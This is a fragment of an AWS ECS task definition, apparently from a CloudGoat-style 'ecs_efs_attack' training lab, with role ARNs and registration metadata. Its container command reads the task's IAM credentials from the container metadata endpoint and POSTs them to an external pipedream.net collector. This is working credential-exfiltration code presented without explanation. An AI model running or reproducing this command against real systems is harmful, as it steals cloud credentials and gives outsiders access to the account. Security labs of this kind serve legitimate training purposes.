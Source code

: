 ```python
                ],
                "essential": true,
                "entryPoint": [
                    "sh",
                    "-c"
                ],
                "command": [
                    "/bin/sh -c \"curl 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI > data.json && curl -X POST -d @data.json https://ens65n00m5z9al9.m.pipedream.net \" "
                ],
                "environment": [],
                "mountPoints": [],
                "volumesFrom": []
            }
        ],
        "family": "webapp",
        "taskRoleArn": "arn:aws:iam::712987748923:role/cg-ecs-role-ecs_efs_attack_cgidzng5qpdu9q",
        "executionRoleArn": "arn:aws:iam::712987748923:role/cg-ecs-role-ecs_efs_attack_cgidzng5qpdu9q",
        "networkMode": "awsvpc",
        "revision": 3,
        "volumes": [],
        "status": "ACTIVE",
        "requiresAttributes": [
            {
                "name": "com.amazonaws.ecs.capability.docker-remote-api.1.21"
            },
            {
                "name": "com.amazonaws.ecs.capability.task-iam-role"
            },
            {
                "name": "com.amazonaws.ecs.capability.docker-remote-api.1.18"
            },
            {
                "name": "ecs.capability.task-eni"
            }
        ],
        "placementConstraints": [],
        "compatibilities": [
            "EC2",
            "FARGATE"
        ],
        "requiresCompatibilities": [
            "FARGATE"
        ],
        "cpu": "256",
        "memory": "512",
        "registeredAt": "2021-08-18T06:44:41.447000+00:00",
        "registeredBy": "arn:aws:sts::712987748923:assumed-role/cg-ec2-role-ecs_efs_attack_cgidzng5qpdu9q/i-0a14dcbb45885cb69"
    }
}
```
